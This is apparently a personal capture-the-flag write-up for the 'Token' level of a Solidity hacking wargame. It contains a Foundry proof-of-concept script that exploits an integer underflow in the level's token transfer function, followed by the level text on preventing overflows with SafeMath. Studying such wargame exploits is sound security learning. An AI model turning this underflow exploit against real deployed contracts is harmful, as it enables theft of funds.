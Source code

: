```yaml
---
title: Token
---
```


Difficulty: ⭐⭐
Date: 1 février 2024
État: Terminé

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Token {
  function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint balance);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_05");
        address publicKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);
        Token token = Token(addr);
        uint balance = token.balanceOf(publicKey);
        console.logUint(balance);
        token.transfer(address(0), balance + 1);
        balance = token.balanceOf(publicKey);
        console.logUint(balance);

        vm.stopBroadcast();
    }
}
```

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if
you somehow manage to get your hands on any additional tokens.
Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

Overflows are very common in solidity and must be checked for with control statements such as:

```
if(a + c > a) {
  a = a + c;
}

```

An easier alternative is to use OpenZeppelin's SafeMath library that
automatically checks for overflows in all the mathematical operators.
The resulting code looks like this:

```
a = a.add(c);

```

If there is an overflow, the code will revert.
